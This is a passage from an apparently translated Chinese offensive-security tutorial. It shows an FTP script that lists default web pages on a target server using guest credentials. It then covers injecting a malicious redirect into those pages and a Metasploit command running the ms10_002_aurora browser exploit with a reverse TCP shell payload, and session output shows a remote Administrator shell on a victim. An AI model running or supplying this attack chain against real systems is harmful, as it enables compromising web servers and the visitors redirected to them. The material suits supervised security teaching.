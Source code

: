 ```
            retList.append(fileName)
            return retList

host = '192.168.95.179'
userName = 'guest'
passWord = 'guest'
ftp = ftplib.FTP(host)
ftp.login(userName, passWord)
returnDefault(ftp) 
```

看着这个脆弱的 FTP 服务器，我们可以看到它有三个 WEB 页面在基目录下。好极了，我们知道可以移动我们的攻击向量到我们的被感染的页面。

```
attacker# python defaultPages.py
[+] Found default page: index.html
[+] Found default page: index.php
[+] Found default page: testmysql.php 
```

## 添加恶意注入脚本到 WEB 页面

现在我们已经找到了 WEB 页面文件，我们必须用一个恶意的重定向感染它。为了快速的生成一个恶意的服务器和页面在 [`10.10.10.112:8080/exploit`](http://10.10.10.112:8080/exploit) 页面，我们将使用 Metasploit 框架。注意，我们选择`ms10_002_aurora`的 Exploit,同样的 Exploit 被用在攻击 Google 的极光行动中。位与 [`10.10.10.112:8080/exploit`](http://10.10.10.112:8080/exploit) 的页面将重定向到受害者，这将返回给我们一个反弹的 Shell。

```
attacker# msfcli exploit/windows/browser/ms10_002_aurora
    LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit
    PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112 LPORT=443 E
[*] Please wait while we load the module tree...
<...SNIPPED...>
LHOST => 10.10.10.112
SRVHOST => 10.10.10.112
URIPATH => /exploit
PAYLOAD => windows/shell/reverse_tcp
LHOST => 10.10.10.112
LPORT => 443
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) > 
```

任何脆弱的客户机连接到我们的服务页面 [`10.10.10.112:8080/exploit`](http://10.10.10.112:8080/exploit) 都将会落入我们的陷阱中。如果成功，它将建立一个反向的 TCP Shell 并允许我们远程的在客户机上执行 Windows 命令。从这个命令行 Shell 我们能在受感染的受害者主机上以管理员权限执行命令。

```
msf exploit(ms10_002_aurora) >
[*] Sending Internet Explorer "Aurora" Memory Corruption to client 10.10.10.107
[*] Sending stage (240 bytes) to 10.10.10.107
[*] Command shell session 1 opened (10.10.10.112:443 ->10.10.10.107:49181) at 2012-06-24 10:05:10 -0600
msf exploit(ms10_002_aurora) > sessions -i 1
[*] Starting interaction with 1...
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop> 
```
